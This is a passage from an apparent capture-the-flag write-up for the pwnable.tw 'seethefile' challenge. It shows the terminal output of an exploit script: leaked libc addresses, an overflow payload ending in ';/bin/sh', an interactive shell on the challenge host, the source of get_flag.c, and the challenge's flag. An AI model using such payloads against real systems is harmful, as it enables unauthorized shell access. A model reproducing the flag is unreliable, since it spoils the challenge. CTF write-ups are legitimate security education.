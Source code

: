 {% highlight bash %}
➜  seethefile python solve.py chall.pwnable.tw 10200
[*] For remote: solve.py HOST PORT
[+] Opening connection to chall.pwnable.tw on port 10200: Done
[+] libc_base found at: 0xf75a2000
[+] system@libc found at: 0xf75dc940
[*] Switching to interactive mode
Thank you AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x90\xb2\x0BBBBBBBBBBBB\xff\xff\xff\xff;/bin/sh ,see you next time
$ id
uid=1000(seethefile) gid=1000(seethefile) groups=1000(seethefile)
$ cd /home/seethefile
$ ls
flag
get_flag
get_flag.c
run.sh
seethefile
$ cat get_flag.c
#include <unistd.h>
#include <stdio.h>

int read_input(char *buf,unsigned int size){
    int ret ;
    ret = read(0,buf,size);
    if(ret <= 0){
        puts("read error");
        exit(1);
    }
    if(buf[ret-1] == '\n')
        buf[ret-1] = '\x00';
    return ret ;
}

int main(){
    char buf[100];
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    printf("Your magic :");
    read_input(buf,40);
    if(strcmp(buf,"Give me the flag")){
        puts("GG !");
        return 1;
    }
    FILE *fp = fopen("/home/seethefile/flag","r");
    if(!fp){
        puts("Open failed !");
    }
    fread(buf,1,40,fp);
    printf("Here is your flag: %s \n",buf);
    fclose(fp);
}
$ ./get_flag
Your magic :$ Give me the flag
Here is your flag: FLAG{F1l3_Str34m_is_4w3s0m3}
{% endhighlight %}

